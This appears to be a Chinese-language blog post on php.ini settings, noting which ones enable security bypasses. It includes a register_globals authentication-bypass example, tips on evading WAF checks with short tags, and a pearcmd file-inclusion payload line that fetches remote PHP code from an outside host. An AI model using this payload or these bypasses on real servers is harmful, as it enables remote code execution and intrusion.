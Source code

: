 ```yaml
---
title: PHP.INI
date: 2020-10-26 08:10:53
tags: 编程
---
```


# 深入理解phpinfo()

## 一、php.ini核心配置说明

**short_open_tag**（是否开启PHP代码标志的缩写形式）

假如被开启了该配置，`<? ?>`也可以作为php语言开始的标志，可以用于绕过对于`<?php`的检测。同时`<?=` 和`<? echo` 等价。和`asp_tags`的配置相同，但是后面这个是开启ASP的标志`<%%>`.但是在7.0.0版本之后就被搞出去了，可能是太好绕过WAF了。

**disable_functions**(禁止内置函数)和**disable_classes**（ 禁止类）

**script_encoding**（如果没有declare语句出现时，生效文件编码）

**variables_order**（`E`nvironment, `G`et, `P`ost, `C`ookie, and `S`erver,是否开启这些特殊变量）

**request_order**（指定GET，POST,COOKie进入php寄存器的顺序，从左到右，新值覆盖旧值）

**register_globals**（自动注册PHP变量）**本特性已自 PHP 5.3.0 起*废弃*并将自 PHP 5.4.0 起*移除*。**

```
register_globals = on
<?php
// 当用户合法的时候，赋值 $authorized = true
if (authenticated_user()) {
    $authorized = true;
}

// 由于并没有事先把 $authorized 初始化为 false，
// 当 register_globals 打开时，可能通过GET auth.php?authorized=1 来定义该变量值
// 所以任何人都可以绕过身份验证
if ($authorized) {
    include "/highly/sensitive/data.php";
}
单纯地关闭 register_globals 并不代表所有的代码都安全了。对于每一段提交上来的数据，都要对其进行具体的检查。永远要验证用户数据和对变量进行初始化！
```

**register_argc_argv**（告诉php是否注册`argv & argc variables` )

```
命令行模式：https://www.php.net/manual/zh/features.commandline.php
这样可以通过CLI SAPI 将URL中的数据传递到命令行模式中执行
?f=pearcmd&+install&+http://a.com/1.php
f是文件包含，将执行这个pearcmd文件，然后输入到了命令行模式了，后面的参数也会传入到命令行中
$argc包含当运行于命令行下时传递给当前脚本的参数的数目。
$argv — 传递给脚本的参数数组
```

**enable_post_data_reading**（是否启用[$_POST](https://www.php.net/manual/zh/reserved.variables.post.php) and [$_FILES](https://www.php.net/manual/zh/reserved.variables.files.php)来进行读取数据）

如果设置为false，就会只能通过`php://input`来读取传递的数据。

**auto_prepend_file和auto_append_file**（区别在于加载file的时间）

```
If the script is terminated with exit(), auto-append will not occur.
```

[**magic_quotes_gpc**](https://www.php.net/manual/zh/info.configuration.php#ini.magic-quotes-gpc)（开启魔术方法，自动转义）

**include_path**（很重要，但没必要讲）

**open_basedir**（限制包含目录，但是可以绕过）

```
In httpd.conf, open_basedir can be turned off (e.g. for some virtual hosts) the same way as any other configuration directive with "php_admin_value open_basedir none".
```

**cgi.check_shebang_line**（控制PHP是否检测#号开头的行）

`cgi.discard_path` [boolean](https://www.php.net/manual/zh/language.types.boolean.php)

If this is enabled, the PHP CGI binary can safely be placed outside of the web tree and people will not be able to circumvent .htaccess security.

`cgi.fix_pathinfo` [boolean](https://www.php.net/manual/zh/language.types.boolean.php)

Provides *real* `PATH_INFO`/ `PATH_TRANSLATED` support for CGI. PHP's previous behaviour was to set `PATH_TRANSLATED` to `SCRIPT_FILENAME`, and to not grok what `PATH_INFO` is. For more information on `PATH_INFO`, see the CGI specs. Setting this to `1` will cause PHP CGI to fix its paths to conform to the spec. A setting of zero causes PHP to behave as before. It is turned on by default. You should fix your scripts to use `SCRIPT_FILENAME` rather than `PATH_TRANSLATED`.

**allow_url_include**解决了远端引用(Include)

**allow_url_fopen**去打开远端的文件

enable_dl = On （禁用dl()函数主要是出于安全考虑，因为它可以绕过open_basedir指令的限制。）



## 二、参考链接

php.ini详解：https://www.cnblogs.com/hugongs/articles/1060223.html